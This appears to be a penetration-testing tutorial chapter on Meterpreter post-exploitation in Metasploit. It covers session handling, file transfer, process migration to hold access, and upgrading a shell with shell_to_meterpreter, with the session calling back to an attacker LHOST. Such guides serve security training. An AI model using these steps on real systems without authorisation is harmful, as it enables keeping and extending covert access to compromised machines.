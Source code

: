 # Meterpreter for Post-Exploitation

By now you probably has some kind of shell to the target. If it is not a meterpreter shell you should probably try to turn the current shell into a meterpreter shell, since it gives you a lot of tools available really easy.

So just create a meterpreter-shell from msfvenom or something like that. Maybe a php-shell. Or whatever you have access to. Then you just fire that script and get your meterpreter shell. Check out the chapter Exploiting/Msfvenom for more about creating payloads.

## Basics

List all commands

```text
help
```

Get help about a specific command

```text
help upload
```

### Sessions

So first some basics. You can put the shell into a background job with the command `background`. This might be useful if you have several shells going at the same time. Or if you want to move to a specific directory to upload or download some files.

List background sessions

```text
background -l
```

Connect back to a background session

```text
background -i 1
```

Upload and download files.

```text
upload
download
```

## Scripts

### Migrate

A really common and useful script that is build into metasploit is the migrate script. If you get the shell through some kind of exploits that crashes a program the user might shut down that program and it will close your session. So you need to migrate your session to another process. You can do that with the `migrate` script.

First run this command to output all processes

```text
ps
```

Now you choose one and run

```text
run migrate -p 1327
```

Where the `-p` is the PID of the process.

## Post modules

There are tons of modules specifically created for post-exploitation. They can be found with

```text
use post/
```

### Upgrade a normal shell to metepreter

There is a point in doing stuff through metasploit. For example, if you find a exploit that does not have meterpreter available as a payload you can just start a normal shell and then upgrade it. To do that you do the following:

First you generate a shell through metasploit, either through a specici exploit or through a msfvenom-shell that you upload. Now that you have a normal shell it is time to upgrade it to a meterpreter shell.

First we have to leave the shell but without killing it. So we do

```text
Ctr-z
Background session 2? [y/N]  y
```

Now we have that shell running in the background, and you can see it with

```text
show sessions
#or
sessions -l
```

And you can connect to it again with

```text
sessions -i 1
```

Or whatever the number of the session is.

So now we have the shell running in the background. It is time to upgrade

```text
use post/multi/manage/shell_to_meterpreter
set LHOST 192.168.1.102
set session 1
exploit
```

Now metasploit will create a new session with meterpeter that will be available to you.

